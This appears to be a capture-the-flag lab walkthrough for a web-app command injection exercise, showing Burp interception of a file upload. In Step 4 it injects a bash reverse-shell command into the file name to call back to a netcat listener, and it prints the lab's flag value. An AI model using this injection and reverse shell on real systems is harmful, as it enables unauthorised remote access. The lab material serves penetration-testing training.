

![ref1]
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">Vulnerable File Backup Utility - Command Injection </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://attackdefense.com/challengedetails?cid=1930>  </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Webapp Pentesting Basics </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Step 1:** Interacting with the webapp. 

When the lab starts up, the File Backup webapp opens up in the browser: 

Click on the Choose a File field and upload README file: ![ref2]

Click on the "UPLOAD" button. 

The file was uploaded successfully. ![ref2]

![ref1]

**Step 2:** Configure Burp proxy to intercept the file upload requests. 

Configure the browser to use the Burp proxy listener as its HTTP Proxy server: Using FoxyProxy addon to setup HTTP Proxy profile for the browser: 

Click on the icons for FoxyProxy on the top left. 

Select Burp Suite profile from the list. 

Launch BurpSuite. ![ref2]

Select Web Application Analysis > burpsuite 

The following window will appear: ![ref2]

Click Next. 

Finally, click Start Burp in the following window: ![ref2]

![ref1]

The following window will appear after BurpSuite has started: 

**Step 3:** Upload a file and perform Command Injection. Select the README file and upload it to the server. ![ref2]

Forward the intercepted request. 

Notice the file name and data are uploaded to the server. Send the above request to repeater. ![ref2]

Start netcat listener on the host: **Command:** nc -lvp 4444 

Modify the file name and append the netcat command. ![ref2]

Copy the IP address from the Host header and set the last digit as 2. 

Send the above request and notice the response in the terminal having netcat listener: 

**Step 4:** Gaining a shell on the remote machine. Start a netcat listener on the host machine: ![ref2]**Command:** nc -lvp 4444 

![ref1]

Set the file parameter to: 

**file:** README; bash -c 'bash -i >& /dev/tcp/192.105.241.2/4444 0>&1' 

Notice the connection is received in the terminal: ![ref2]

**Step 5:** Retrieving the flag. 

**Commands:** 

find / -name flag 2>/dev/null cat /tmp/flag 

**Flag:** 05d52d221ec8f4860da7733ff91c8c45 **References:** 

1. OWASP Top 10 (<https://owasp.org/www-project-top-ten/>) ![ref2]
1. A1: Injection ([https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Inject ion.html](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Injection.html)) 

[ref1]: Aspose.Words.0668d065-3eb4-46d4-8899-b66fcf6ae98e.002.png
[ref2]: Aspose.Words.0668d065-3eb4-46d4-8899-b66fcf6ae98e.004.png
